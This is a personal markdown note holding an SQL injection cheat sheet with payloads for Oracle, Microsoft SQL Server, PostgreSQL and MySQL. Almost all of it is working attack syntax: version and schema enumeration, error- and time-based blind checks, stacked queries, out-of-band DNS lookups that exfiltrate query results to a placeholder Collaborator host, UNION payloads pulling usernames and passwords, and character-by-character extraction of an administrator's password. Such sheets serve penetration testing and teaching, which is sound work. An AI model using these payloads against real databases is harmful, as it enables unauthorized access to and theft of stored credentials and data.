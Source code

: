 ```yaml
---
id: ecm8gbfd442dpxbe5fggfzo
title: SQL_Injection
desc: ''
updated: 1677476127749
created: 1677380025812
---
```

## SQL injection cheat sheet
This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

### String concatenation
You can concatenate together multiple strings to make a single string.

```sql
Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
```
### Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.
```sql
Oracle	SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	SUBSTRING('foobar', 4, 2)
```
### Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.
```sql
Oracle	--comment
Microsoft	--comment
/*comment*/
PostgreSQL	--comment
/*comment*/
MySQL	#comment
-- comment [Note the space after the double dash]
/*comment*/
```
### Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
```sql
Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version
```
### Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
```sql
Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
### Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.
```sql
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```
### Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
```sql
Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	QUERY-1-HERE; QUERY-2-HERE
```
> Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

### Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
```sql
Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)
```
### Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
```sql
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```
### DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```
The following technique works on fully patched Oracle installations, but requires elevated privileges:
```sql
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL	The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
### DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
```sql
Oracle	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
### UNION attacks
For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.<br>
- The data types in each column must be compatible between the individual queries.
    
    **Number of columns:**
    ```sql
    ' ORDER BY 1--
    ' ORDER BY 2--
    ... until error
    
    OR

    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ... until success
    ```
    **Probing for string data in columns:**
    ```sql
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ... until successfully injected string value
    ```

    **Retrieving data**
    ```sql
    ' UNION SELECT username, password FROM users--
    ```
    **Retrieving multiple values within a single column**
    <br>
    ```sql
    ' UNION SELECT username || '~' || password FROM users--
    ```

### Blind Injection

**Divide and conquer password guessing:**
```sql
' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm

IF TRUE:

xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't

IF FALSE:
Try for example:
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's

IF TRUE, first letter of the password has been found.
```
### SQL injection in different contexts

***JSON or XML based SQL injection often require code obfuscation.
<br>
Most common encoder:
urlencode, dec, html entity

[Hackvertor](https://hackvertor.co.uk/public) is a good tool to start with.<br>
Also there is a plugin for Burp with the same name working with repeater.


